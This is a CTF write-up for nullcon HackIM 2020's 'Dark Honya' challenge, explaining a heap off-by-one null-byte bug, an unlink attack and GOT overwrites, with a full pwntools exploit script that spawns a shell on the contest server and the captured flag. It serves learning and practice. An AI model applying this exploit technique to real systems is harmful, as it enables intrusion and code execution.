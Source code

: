 ```yaml
---
title: Dark Honya -- nullcon HackIM 2020
categories: [CTF Writeups]
tags: [nullcon20, pwn]
date: 2020-02-09
---
```

With [Jorge](https://twitter.com/jorge_cmartins) and [jofra](https://twitter.com/V_jofra)

**Points:** 460 (dynamic)

## TL;DR
1. Null byte overflow on heap chunk
2. Free overflown chunk
3. Overwrite ptr array 
4. Write `printf@plt` on `free@got` to obtain a libc leak
5. Write `system` on `atoi@got` to get a shell


### Binary Mitigations
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

## Reversing
The program provided three functionalities:

#### 1. Buy a book
```c
void buy()
{
  char *chunk; 
  signed int i;

  for ( i = 0; ptr[i]; ++i )
    ;
    
  if ( i <= 15 )
  {
    chunk = malloc(0xF8);
    puts("Name of the book?");
    read_f8_buff(chunk);
    ptr[i] = chunk;
  }
  else
  {
    puts("Next time bring a bag with you!");
  }
}
```
#### 2. Return a book
```c
void put_back()
{
  int idx; 

  puts("Which book do you want to return?");
  idx = read_int();
  if ( (unsigned int)idx > 0xF )
    puts("boy, you cannot return what you dont have!");
  free(ptr[idx]);
  ptr[idx] = 0;
}

```

#### 3. Write on a book
```c
void write()
{
  int idx; 

  idx = read_int();
  if ( (unsigned int)idx <= 0xF )
  {
    puts("Name of the book?");
    read_f8_buff(ptr[idx]);
  }
  else
  {
    puts("Writing in the air now?");
  }
}
```

## Vulnerability

The binary uses `read_f8_buff` when reading data to buffers. This function reads 0xf8 bytes to a buffer and appends a '\x00' character to the end of the buffer. If 0xf8 characters are provided, the '\x00' will be appended out of bounds.

```c
void read_f8_buff(char *buff)
{
  int bytes_read; 

  bytes_read = read(0, buff, 0xF8);
  if ( bytes_read == -1 )
    puts("Err read string");
  buff[bytes_read] = 0; // off by one vulnerability
}
```

![](https://i.imgur.com/43FDHCJ.png)

## Exploitation Plan

### Step 1 - Control global ptr array entries
We can leverage the off-by-one vulnerability in `read_f8_buffer` to force a coalesce with an allocated chunk. This will call the `unlink` macro.

```c
/* Take a chunk off a bin list */
#define unlink(AV, P, BK, FD) {                                            
    FD = P->fd;								      
    BK = P->bk;					
    // we have to satisfy this check
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))		      
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);  
    else {		
        // important part
        FD->bk = BK;							   
        BK->fd = FD;							      
        ...							      
      }									      
}
```
By controlling the `FD` and `BK` pointers, we can write the chunk `BK` and `FD`s address on arbitrary memory, as long as `FD->bk == P` and `BK->fd == P`. So, effectively, we must have a pointer in memory to `P`. 

When we allocate a `chunk` its address is stored on the global `ptr` list.

This address points to the usable area inside the chunk (i.e. not the actual beginning of the chunk). With this in mind we prepare a `fake chunk` at the stored address with modified `size`,`fd` and `bk`pointers and next chunk's `prev_size`. We then free the next chunk to trigger a coalesce which will use the unlink macro.


![](https://i.imgur.com/QM5Q6jt.png)

This will overwrite ptr_array[2] with &ptr_array-8 (fake_chunk->fd). 

### Step 2 - Leak libc

We now control the global `ptr` array, so we can insert arbitrary addresses and use the write functionality to achieve a **write_what_where**. 
We will now:
1. Insert `free@got`'s address on the `ptr` array
2. Use the write functionality to replace the `free@got` with `printf@plt`
3. "Free" a chunk with a format string as it's content which will call `printf` and get us a`libc leak`


### Step 3 - Get shell

Since we have a`libc leak`, the next step is to call `system("/bin/sh")`. To do this we overwrite the `atoi` entry on the got with `system`. This way when the program asks us for the menu option we simply provide the string `/bin/sh`.


## Exploit Script
```python

from pwn import *

def go():
    s = remote("pwn2.ctf.nullcon.net", 5002)
    libc = ELF("./libc-2.23.so")
    ptr = 0x6021b0
    leak_offset = 0x20830
    
    # we're not using the name
    s.send("A"*8)

    # alocate 4 chunks
    for n in range(5-1):
        alloc(s, chr(ord('A')+n)*0x10)
    
    # alocate 5th chunk with format string needed to obtain a leak
    alloc(s, "LEAK:%15$p")

    # .bss entry must point to chunk-0x10, so we will create a fake chunk
    # 0x10 bytes after our allocated chunk, populating the prev_size with the 
    # correct size of our fake chunk
    write_name(s, 2, '\x00'*8 + p64(0xf1) + p64(ptr-0x18) + p64(ptr-0x10) + (0xf8-0x28)*'A' + p64(0xf0))

    # free the third chunk, triggering the unlink 
    free(s, 3)

    # free 0x602018
    # &ptr-0x8 is now written on the third entry of the pointer list
    # we now use it to change the first pointer to point to free@got
    write_name(s, 2, '\x00'*8 + p64(0x602018))


    # overwrite both free and puts to printf
    write_name(s, 0, p64(0x400680) + p64(0x400680))

    # trigger the printf on the fifth chunk and obtain a libc leak
    free(s, 4)

    s.recvuntil("LEAK:")
    libc.address = int(s.recv(14)[2:], 16) - leak_offset

    log.info("libc      @ {}".format(hex(libc.address)))

    # atoi 0x602060
    # replace atoi with system
    write_name(s, 2, '\x00'*8 + p64(0x602060))

    write_name(s, 0, p64(libc.symbols['system']))   

    s.sendline("/bin/sh")
    s.sendline("cat flag")

    s.interactive()

go()

# hackim20{Cause_Im_coming_atcha_like_a_dark_honya_?}
```

